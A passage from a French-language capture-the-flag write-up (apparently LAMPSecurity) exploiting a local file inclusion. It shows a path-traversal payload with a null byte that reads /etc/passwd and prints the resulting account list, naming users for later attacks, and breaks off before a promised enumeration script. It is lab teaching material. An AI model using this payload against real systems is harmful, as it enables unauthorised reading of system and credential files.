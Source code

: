 L'inclusion est donc relative et ajoute une extension. Il est alors possible de remonter l'arborescence et de placer un null byte pour casser l'ajout de l'extension. Ainsi avec *?page=../../../../../../../../etc/passwd%00* on obtient :  

```plain
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
news:x:9:13:news:/etc/news:
uucp:x:10:14:uucp:/var/spool/uucp:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
games:x:12:100:games:/usr/games:/sbin/nologin
gopher:x:13:30:gopher:/var/gopher:/sbin/nologin
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
nobody:x:99:99:Nobody:/:/sbin/nologin
vcsa:x:69:69:virtual console memory owner:/dev:/sbin/nologin
rpc:x:32:32:Rpcbind Daemon:/var/lib/rpcbind:/sbin/nologin
nscd:x:28:28:NSCD Daemon:/:/sbin/nologin
tcpdump:x:72:72::/:/sbin/nologin
dbus:x:81:81:System message bus:/:/sbin/nologin
rpm:x:37:37:RPM user:/var/lib/rpm:/sbin/nologin
polkituser:x:87:87:PolicyKit:/:/sbin/nologin
avahi:x:499:499:avahi-daemon:/var/run/avahi-daemon:/sbin/nologin
mailnull:x:47:47::/var/spool/mqueue:/sbin/nologin
smmsp:x:51:51::/var/spool/mqueue:/sbin/nologin
apache:x:48:48:Apache:/var/www:/sbin/nologin
ntp:x:38:38::/etc/ntp:/sbin/nologin
sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
openvpn:x:498:497:OpenVPN:/etc/openvpn:/sbin/nologin
rpcuser:x:29:29:RPC Service User:/var/lib/nfs:/sbin/nologin
nfsnobody:x:65534:65534:Anonymous NFS User:/var/lib/nfs:/sbin/nologin
torrent:x:497:496:BitTorrent Seed/Tracker:/var/spool/bittorrent:/sbin/nologin
haldaemon:x:68:68:HAL daemon:/:/sbin/nologin
gdm:x:42:42::/var/gdm:/sbin/nologin
patrick:x:500:500:Patrick Fair:/home/patrick:/bin/bash
jennifer:x:501:501:Jennifer Sea:/home/jennifer:/bin/bash
andy:x:502:502:Andrew Carp:/home/andy:/bin/bash
loren:x:503:503:Loren Felt:/home/loren:/bin/bash
amy:x:504:504:Amy Pendelton:/home/amy:/bin/bash
mysql:x:27:27:MySQL Server:/var/lib/mysql:/bin/bash
cyrus:x:76:12:Cyrus IMAP Server:/var/lib/imap:/bin/bash
```

Le système compte 5 utilisateurs : *patrick, jennifer, andy, loren* et *amy*. Cela pourra nous servir plus tard.  

La faille étant presque [celle du CTF4](http://devloop.users.sourceforge.net/index.php?article96/solution-du-ctf-lampsecurity-ctf4), il suffit de modifier légèrement le script Python que j'avais écrit pour effectuer une énumération rapide de fichiers sur le système :  
